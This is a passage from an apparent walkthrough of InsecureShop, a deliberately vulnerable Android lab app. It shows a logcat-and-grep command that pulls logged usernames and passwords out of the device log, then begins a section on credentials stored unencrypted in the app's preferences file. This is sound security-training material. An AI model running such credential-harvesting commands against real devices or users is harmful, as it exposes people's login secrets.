 
The username and password are being logged while accessing the `loginActivity`. So, any username and password that are written while logging in the application will be logged. Let’s exploit this behavior:

```powershell
root@generic_x86:/ $ logcat | grep -e 'userName' -e 'password'
08-31 13:38:33.148 27053 27053 D userName: aa
08-31 13:38:33.148 27053 27053 D password: aa,
08-31 13:38:34.066 27053 27053 D userName: aa
08-31 13:38:34.066 27053 27053 D password: aa,
08-31 13:38:34.199 27053 27053 D userName: aa
08-31 13:38:34.199 27053 27053 D password: aa,
```

![image.png](/assets/InsecureShop/image%205.png)

## **Enabled Insecure Data Storage**

> **Description:** The app stores user credentials locally without encrypting them.

If we looked again at the code of the `LoginActivity` we will notice that the username and password of the application are being saved in the application Prefs file.
